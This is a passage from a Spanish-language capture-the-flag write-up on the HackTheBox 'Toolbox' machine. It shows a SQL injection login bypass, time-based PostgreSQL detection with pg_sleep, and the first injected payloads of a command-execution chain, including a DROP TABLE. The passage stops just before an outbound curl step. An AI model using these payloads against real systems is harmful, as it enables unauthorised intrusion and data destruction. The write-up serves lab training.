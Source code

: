 Empezamos reconociendo el panel de login encontrado. Aplicando guessing con contraseñas típicas por defecto no nos lleva a ningún lado. Probamos a inyectar `admin' or 1=1-- -` y logramos saltarnos el panel de login

<img src="/assets/HTB/Toolbox/login.png">

Sabemos que el panel de login es vulnerable a inyecciones SQL, interceptamos con `BurpSuite` y tras probar varios formatos damos con que ejecutando `pg_sleep(10)` la web tarda 10 segundos en reaccionar lo que nos lleva a la conclusión que estamos ante `PostgreSQL`

<img src="/assets/HTB/Toolbox/burp.png">

Revisando payloads en  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) encontramos una posible vía para llegar a un RCE. Ejecutamos paso a paso tal cual nos indican

```sql
username=admin';DROP TABLE IF EXISTS cmd_exec;-- -;&password=admin
```

```sql
username=admin';CREATE TABLE cmd_exec(cmd_output text);-- -;&password=admin
```
En lugar de tratar de ejecutar el comando `id` probamos a hacer un curl a un servidor HTTP que levantaremos en nuestra máquina atacante

